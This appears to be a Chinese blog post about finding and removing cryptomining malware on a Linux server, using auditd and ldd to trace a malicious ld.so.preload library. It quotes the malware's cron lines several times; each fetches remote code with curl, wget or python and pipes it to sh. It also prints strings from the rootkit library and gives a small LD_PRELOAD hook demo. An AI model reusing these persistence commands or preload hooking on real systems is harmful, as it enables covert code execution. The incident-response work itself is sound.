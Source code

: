 ```yaml
---
layout: post
title: "服务器中挖矿病毒分析及移除"
date: 2021-09-16
comments: false
categories: 运维
---
```


近期服务器中了顽固病毒，花了不少时间，最终得以圆满解决，这里分享下整个解决思路，便于为大家提供一定的参考。

### 1. 现象

定时任务有非法任务，如下

```
[root@iZ23kh0sxhxZ nexhome]# crontab -l
*/30 * * * * (curl -fsSL -m180 ||wget -q -T180 -O- ||python -c 'import urllib;print(urllib.urlopen("http://").read())')|sh
```
而且编辑后又会被恢复

### 2. 排查过程

#### 2.1 找出定时任务文件位置

根据网上资料，寻找到以下几处cron文件位置

```
/var/spool/cron/root
/etc/cron.d/root
/var/spool/cron/crontabs/root
```

发现以下几个文件被不停的修改

#### 2.2 找出修改定时任务的进程

思路：寻找监听文件被修改的方式，大致有3中方式

```
方式1: lsof
方式2: inotify
方式3: audit
```
考虑到系统自带了audit，因此采用audit，相关命令如下：

```
启动服务
service auditd start

添加规则
auditctl -w /var/spool/cron/root -p wra

查看规则
auditctl -l

清除规则
auditctl -D

查看结果
ausearch -f /var/
```
通过以上，可以查看文件被修改的进程，如下是通过ausearch得到的结果，其中pid就是修改该文件的进程id

```
time->Thu Sep 16 16:55:49 2021
type=PATH msg=audit(1631782549.484:7): item=1 name="/var/spool/cron/root" inode=11796544 dev=ca:11 mode=0100644 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL
type=PATH msg=audit(1631782549.484:7): item=0 name="/var/spool/cron/" inode=11796506 dev=ca:11 mode=040700 ouid=0 ogid=0 rdev=00:00 nametype=PARENT
type=CWD msg=audit(1631782549.484:7):  cwd="/etc"
type=SYSCALL msg=audit(1631782549.484:7): arch=c000003e syscall=2 success=yes exit=3 a0=7fcf3c2f393b a1=242 a2=1b6 a3=0 items=2 ppid=2693 pid=3187 auid=501 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=pts0 ses=5 comm="ausearch" exe="/sbin/ausearch" key=(null)
```

#### 2.3 确认该进程是什么进程

通过ausearch可以得到进程id，但通过ps无法找到该进程，说明这个为临时进程，通过top观察发现这个就是执行auserch自己的进程号，而且在不执行命令时，是不会有人变更该文件；

于是可以初步断定，修改定时任务不是某个常驻进程定时触发的，而是由于bash 命令主动触发的。

#### 2.4 查找具体的命令

怀疑应该是bash被修改了，从其他可执行文件，还是一样结果，怀疑是动态库被修改，于是查看bash依赖的动态库

```
[root@iZ23kh0sxhxZ nexhome]# ldd /bin/bash
	linux-vdso.so.1 =>  (0x00007ffc5b3be000)
	/usr/local/lib/libevent_core-0.12.so (0x00007fbdb8f8c000)
	libtinfo.so.5 => /lib64/libtinfo.so.5 (0x00000032c6800000)
	libdl.so.2 => /lib64/libdl.so.2 (0x00007fbdb8d7b000)
	libc.so.6 => /lib64/libc.so.6 (0x00007fbdb89e7000)
	/lib64/ld-linux-x86-64.so.2 (0x0000561db6313000)
```
对比了其他正常服务器发现并没有这个libevent_core-0.12.so动态库以来

vim打开/usr/local/lib/libevent_core-0.12.so发现如下一些特殊字符，于是可以断定这个是原因

```
cpu  0 0 3375 498153 97 0 10 0 0 0
cpu0 0 0 1699 249246 71 0 6 0 0 0
intr 0 28 0 0 0 378 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 16 0 4129 0 124 1 0 1251 0 3 0 6879 6680 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0
ctxt 543672
btime 1544675938
processes 2774
procs_running 4
procs_blocked 0
softirq 188202 0 129718 1 457 0 0 1 35688 0 22337access__xstatw+/etc/cron.d/root*/15 * * * * root (curl -fsSL -m180 ||wget -q -T180 -O- ||python -c 'import urllib;print(urllib.urlopen("http://").read())')|sh
##/var/spool/cron/root*/15 * * * * (curl -fsSL -m180 ||wget -q -T180 -O- ||python -c 'import urllib;print(urllib.urlopen("http://").read())')|sh
##/var/spool/cron/crontabs/root*/30 * * * * (curl -fsSL -m180 ||wget -q -T180 -O- ||python -c 'import urllib;print(urllib.urlopen("http://").read())')|sh
##racu_schvdsld.so.preloadlibevent_core-0.12.so/proc/stat/proc/net/tcp/proc/net/tcp6fopen64__lxstat__lxstat64openrmdir__xstat64unlinkunlinkatopendirreaddir/proc4f91a57bce./readdir64?????????????(K???H????pI??????????????????????}???0????XO?????????g?????????'??????0????X{???x?????d????????zRx
```

#### 2.5 移除动态库依赖

通过动态库配置文件，发现如下信息

```
[root@iZ23kh0sxhxZ etc]# cat /etc/ld.so.preload
/usr/local/lib/libevent_core-0.12.so
```
于是手动编辑移除，由于原来动态库已经加载，因此这里重新启动系统

#### 2.6 最终确认

服务器重启后，定时任务没有被修改了，可以确定病毒已被清除。同时确认了依赖已经没有libevent相关库依赖。

```
[root@iZ23kh0sxhxZ ~]# ldd /bin/bash
	linux-vdso.so.1 =>  (0x00007fff01944000)
	libtinfo.so.5 => /lib64/libtinfo.so.5 (0x00000032c6800000)
	libdl.so.2 => /lib64/libdl.so.2 (0x00007fefd921b000)
	libc.so.6 => /lib64/libc.so.6 (0x00007fefd8e86000)
	/lib64/ld-linux-x86-64.so.2 (0x00005567870de000)
```


### 3 总结

自此，该病毒已被彻底移除，这里做一些总结，该病毒依附于命令，即你有敲命令，就会导致定时任务被修改，而我们排查又需要通过命令，因此比较难发现，借助了audit来一步步确定，最终找到是由于加载了黑客自己编写的动态库，从而进一步找到源头，并将病毒清理掉。

这里也简单描述下原理，通过/etc/ld.so.preload可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数。因此可以使用预加载实现hook功能。

```
#include <stdio.h>
#include <sys/socket.h>

__attribute__ ((visibility("default"))) int socket(int family, int type, int protocol) {
	printf("detect socket call\n");
	return -1;
}

__attribute__((constructor)) void main() {
	printf("module inject success\n");
}
```

编译成so，并执行

```
gcc hook.c --shared -fPIC -o hook.so
LD_PRELOAD=$PWD/hook.so ping 127.0.0.1
```

输出如下结果

```
module inject success
detect socket call
detect socket call
ping: socket: Success
```
